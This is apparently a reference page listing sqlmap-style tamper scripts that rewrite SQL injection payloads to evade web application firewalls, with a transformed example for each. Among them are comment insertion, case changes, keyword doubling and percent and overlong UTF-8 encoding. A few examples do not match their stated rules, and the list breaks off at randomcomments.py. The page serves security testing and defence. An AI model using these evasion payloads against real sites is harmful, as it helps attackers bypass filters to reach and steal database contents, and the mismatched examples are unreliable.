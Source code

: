 ## informationschemacomment.py
Function: Space ==> /**/
Platform: MySQL
example
~~~
SELECT table_name FROM INFORMATION_SCHEMA.TABLES ==> SELECT table_name FROM INFORMATION_SCHEMA/**/.TABLES
~~~
## lowercase.py
Function: INSERT ==> insert
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
SELECT table_name FROM INFORMATION_SCHEMA.TABLES ==> select table_name from information_schema.tables
~~~
## modsecurityversioned.py
Function: AND ==> /!12345AND/
Platform: MySQL 5.0
example
~~~
1 AND 2>1 — ==> 1 /*!30874AND 2>1*/ —
~~~
## multiplespaces.py
Function: Space==> Multiple spaces
Platform: All
example
~~~
1 UNION SELECT foobar ==> 1 UNION SELECT foobar
~~~
## nonrecursivereplacement.py
Function: union ==> uniunionon
Platform: All
example
~~~
1 UNION SELECT 2 — ==> 1 UNION SELESELECTCT 2-
~~~
## overlongutf8.py
Function: unicode encoding
Platform: All
example
~~~SELECT FIELD FROM TABLE WHERE 2>1 ==> SELECT%C0%AAFIELD%C0%AAFROM%C0%AATABLE%C0%AAWHERE%C0%AA2%C0%BE1
~~~
## percentage.py
Function: select ==> s%e%l%e%c%t
Platform: Mssql 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0
example
~~~SELECT FIELD FROM TABLE ==> %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E
~~~
## randomcase.py
Function: INSERT ==> INseRt
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
INSERT ==> InseRt
~~~
## randomcomments.py